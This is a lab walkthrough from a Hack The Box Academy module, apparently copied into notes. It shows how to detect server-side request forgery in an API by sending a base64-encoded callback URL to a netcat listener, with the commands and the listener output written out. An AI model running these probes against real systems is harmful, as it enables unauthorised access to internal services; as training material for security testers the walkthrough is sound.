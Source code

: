 ﻿Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. OurÂ [Server-side Attacks](https://academy.hackthebox.com/module/details/145)Â module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click onÂ `Click here to spawn the target system!`Â or theÂ `Reset Target`Â icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing inÂ `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter calledÂ _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specifyÂ `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`Â as the value of theÂ _id_Â parameter and make an API call.


```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about theÂ _id_Â parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encodingÂ `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`Â and making an API call again.


```shell-session
smoothment@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

# Question
---
![Pasted image 20250219172102.png](../../../../IMAGES/Pasted%20image%2020250219172102.png)

